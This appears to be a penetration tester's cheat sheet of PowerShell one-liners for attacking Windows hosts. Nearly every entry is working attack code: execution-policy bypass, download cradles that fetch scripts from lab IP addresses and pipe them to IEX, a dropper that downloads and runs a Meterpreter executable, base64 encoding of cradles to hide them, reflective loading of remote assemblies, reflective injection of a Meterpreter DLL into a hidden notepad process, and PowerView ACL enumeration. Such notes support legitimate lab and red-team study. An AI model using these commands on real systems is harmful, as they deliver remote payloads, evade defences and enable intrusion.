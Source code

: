 ## Oneliners - ps1


### Powershell

Open powershell with bypass
#bypass #ps1
```cmd
powershell -exec bypass
```

#ps1 #runner #cradle
Download cradle in memory:
```powershell
(New-Object System.Net.WebClient).DownloadString("http://192.168.49.155/run.txt") | IEX
```

#ps1 #runner #cradle #dropper #exe
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.186/met64.exe', 'C:\Windows\Tasks\met64.exe'); C:\Windows\Tasks\met64.exe
```


#ps1 #encoding #cradle
Encode download cradle:
```powershell
$text = "<download cradle>"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
# then to execute use powershell -enc <encoded_text>
powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEANQA1AC8AcgB1AG4ALgB0AHgAdAAiACkAIAB8ACAASQBFAFgA
```

#ps1 #encoding #hex #assembly
```powershell
$assemblyFile = "<path_to_assembly>"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$stringBuilder.Append("0x")
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
	$stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$hexDll = $stringBuilder.ToString() -join ""
$hexDll | Out-File C:\Users\Administrator\Desktop\hex.txt
```

^6217c2


#ps1 #reflection #runner 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.155/simple-runner.exe')
# If your class and method is public
$assem = [System.Reflection.Assembly]::Load($data)
[shellcode_runner_simple.Program]::Main("".Split())
```

#ps1 #reflection #runner #dll #managed #dll-managed
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.73/ClassRunner.dll')

[System.Reflection.Assembly]::Load($data).GetType("ClassRunner.Class1").GetMethod("runner").Invoke(0, $null)
```

#ps1 #injection #reflective-injection #remote-injection #runner #dll #unmanaged #dll-unmanaged #msfvenom
```powershell
Start-Process "C:\Windows\system32\notepad.exe" -WindowStyle Hidden
$bytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.49.66/met.dll")
$procid = (Get-Process -Name notepad).Id[0]

IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.49.66/Invoke-ReflectivePEInjection.ps1")

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#powerview #enum #dacl #resolve-sid ^d8fba8
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```